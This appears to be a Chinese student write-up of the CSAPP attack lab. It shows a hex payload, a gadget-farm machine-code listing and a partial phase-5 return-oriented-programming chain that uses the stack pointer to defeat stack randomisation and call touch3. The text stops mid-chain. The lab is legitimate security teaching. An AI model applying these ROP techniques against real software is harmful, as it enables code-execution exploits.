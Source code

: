 ```markdown
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
后续验与前同，不赘述。

## phase 5
题目：传入*sval，跳转到touch3，用rop完成phase3的攻击。使用的gadget在start_farm~start_end,以下省略每个函数的ret
```markdown
b8 fb 78 90 90       	/*getval_142:0x000000000040199a <+0>:*/     mov    $0x909078fb,%eax
8d 87 48 89 c7 c3    	/*addval_273:0x00000000004019a0 <+0>: */    lea    -0x3c3876b8(%rdi),%eax
8d 87 51 73 58 90    	/*addval_219:0x00000000004019a7 <+0>:*/     lea    -0x6fa78caf(%rdi),%eax
c7 07 48 89 c7 c7    	/*setval_237:0x00000000004019ae <+0>:*/     movl   $0xc7c78948,(%rdi)
c7 07 54 c2 58 92    	/*setval_424:0x00000000004019b5 <+0>:  */   movl   $0x9258c254,(%rdi)
c7 07 63 48 8d c7    	/*setval_470:0x00000000004019bc <+0>:  */   movl   $0xc78d4863,(%rdi)
c7 07 48 89 c7 90    	/*setval_426:0x00000000004019c3 <+0>: */    movl   $0x90c78948,(%rdi)
b8 29 58 90 c3       	/*getval_280:0x00000000004019ca <+0>: */    mov    $0xc3905829,%eax
48 8d 04 37          	/*0x00000000004019d6 <add_xy+0>:          */lea    (%rdi,%rsi,1),%rax
b8 5c 89 c2 90       	   /*0x00000000004019db <getval_481+0>:   */mov    $0x90c2895c,%eax
c7 07 99 d1 90 90    	   /*0x00000000004019e1 <setval_296+0>:   */movl   $0x9090d199,(%rdi)
8d 87 89 ce 78 c9    	   /*0x00000000004019e8 <addval_113+0>:   */lea    -0x36873177(%rdi),%eax
8d 87 8d d1 20 db    	   /*0x00000000004019ef <addval_490+0>:   */lea    -0x24df2e73(%rdi),%eax
b8 89 d1 48 c0       	   /*0x00000000004019f6 <getval_226+0>:   */mov    $0xc048d189,%eax
c7 07 81 d1 84 c0    	   /*0x00000000004019fc <setval_384+0>:   */movl   $0xc084d181,(%rdi)
8d 87 41 48 89 e0    	   /*0x0000000000401a03 <addval_190+0>:   */lea    -0x1f76b7bf(%rdi),%eax
c7 07 88 c2 08 c9    	   /*0x0000000000401a0a <setval_276+0>:   */movl   $0xc908c288,(%rdi)
8d 87 89 ce 90 90    	   /*0x0000000000401a11 <addval_436+0>:   */lea    -0x6f6f3177(%rdi),%eax
b8 48 89 e0 c1       	   /*0x0000000000401a18 <getval_345+0>:   */mov    $0xc1e08948,%eax
8d 87 89 c2 00 c9    	   /*0x0000000000401a1e <addval_479+0>:   */lea    -0x36ff3d77(%rdi),%eax
8d 87 89 ce 38 c0    	   /*0x0000000000401a25 <addval_187+0>:   */lea    -0x3fc73177(%rdi),%eax
c7 07 81 ce 08 db    	   /*0x0000000000401a2c <setval_248+0>:   */movl   $0xdb08ce81,(%rdi)
b8 89 d1 38 c9       	   /*0x0000000000401a33 <getval_159+0>:   */mov    $0xc938d189,%eax
8d 87 c8 89 e0 c3    	   /*0x0000000000401a39 <addval_110+0>:   */lea    -0x3c1f7638(%rdi),%eax
8d 87 89 c2 84 c0    	   /*0x0000000000401a40 <addval_487+0>:   */lea    -0x3f7b3d77(%rdi),%eax
8d 87 48 89 e0 c7    	   /*0x0000000000401a47 <addval_201+0>:   */lea    -0x381f76b8(%rdi),%eax
b8 99 d1 08 d2       	   /*0x0000000000401a4e <getval_272+0>:   */mov    $0xd208d199,%eax
b8 89 c2 c4 c9       	   /*0x0000000000401a54 <getval_155+0>:   */mov    $0xc9c4c289,%eax
c7 07 48 89 e0 91    	   /*0x0000000000401a5a <setval_299+0>:   */movl   $0x91e08948,(%rdi)
8d 87 89 ce 92 c3    	   /*0x0000000000401a61 <addval_404+0>:   */lea    -0x3c6d3177(%rdi),%eax
b8 89 d1 08 db       	   /*0x0000000000401a68 <getval_311+0>:   */mov    $0xdb08d189,%eax
c7 07 89 d1 91 c3    	   /*0x0000000000401a6e <setval_167+0>:   */movl   $0xc391d189,(%rdi)
c7 07 81 c2 38 d2    	   /*0x0000000000401a75 <setval_328+0>:   */movl   $0xd238c281,(%rdi)
c7 07 09 ce 08 c9    	   /*0x0000000000401a7c <setval_450+0>:   */movl   $0xc908ce09,(%rdi)
8d 87 08 89 e0 90    	   /*0x0000000000401a83 <addval_358+0>:   */lea    -0x6f1f76f8(%rdi),%eax
8d 87 89 c2 c7 3c    	   /*0x0000000000401a8a <addval_124+0>:   */lea    0x3cc7c289(%rdi),%eax
b8 88 ce 20 c0       	   /*0x0000000000401a91 <getval_169+0>:   */mov    $0xc020ce88,%eax
c7 07 48 89 e0 c2    	   /*0x0000000000401a97 <setval_181+0>:   */movl   $0xc2e08948,(%rdi)
8d 87 89 c2 60 d2    	   /*0x0000000000401a9e <addval_184+0>:   */lea    -0x2d9f3d77(%rdi),%eax
b8 8d ce 20 d2       	   /*0x0000000000401aa5 <getval_472+0>:   */mov    $0xd220ce8d,%eax
```
字符串传入的是首地址，可现在的问题是，栈随机化后，我们存储的cookie的字符串的地址无法确定。我们首先很自然的想到，能不能将cookie放在getbuf的栈顶，然后获取rsp即可。很可惜，查阅attack.pdf中的3A~D与上述gadget，发现并不能直接pop rdi。此处便涉及到一个问题：如何确定存储cookie的地址。我们查阅gadget，发现了一个返回x+y的函数。而函数的第一个和第二个参数分别对应rdi（long x）和rsi（long y），即rax=rdi+rsp。因此我们可以用该函数的返回值rax(rsp+偏移量)来确定cookie放在哪,然后就rax传给rdi，转到touch3即可。因此我们要确定rdi和rsp分别代表什么。查阅机器码的含义与gadget中可以使用的机器码我们发现rax可以直接赋值给rdi：rax->rdi，而si只能被cx赋值（下同），即ecx->esi;edx->ecx;eax->edx。因此计算出偏移量后我们需要先传给ax，再通过一系列操作才能赋给si。又有可以利用的pop rax.因我们只需计算出偏移量，将其通过溢出注入内存即可。那么最开始只需将rsp->rax,rax->rdi即可为实现上述步骤。综上，我们需要执行的汇编操作如下（同时指令分别对应低到高地址的栈存储情况，每条8字节）
```markdown
1：movq %rsp，%rax
2：movq %rax，%rdi
3：pop %rax
4：（此处存储偏移量，为pop给ax的数据）
5：mov %eax，%edx
6：mov %edx，%ecx
```